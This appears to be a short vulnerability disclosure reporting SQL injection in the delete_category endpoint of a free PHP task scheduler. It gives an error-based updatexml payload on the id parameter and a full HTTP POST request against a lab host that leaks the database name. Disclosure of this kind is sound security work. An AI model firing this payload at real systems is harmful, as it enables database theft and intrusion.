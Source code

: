 # Simple Task Scheduling System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /tss/classes/Master.php?f=delete_category

Vulnerability location: /tss/classes/Master.php?f=delete_category, id

db_name = tss_db;length=6

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /tss/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=tc6akb10bh652defck09t9eug4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/179392016-aa7d365d-126d-4db3-a1a4-76a308a59a12.png)
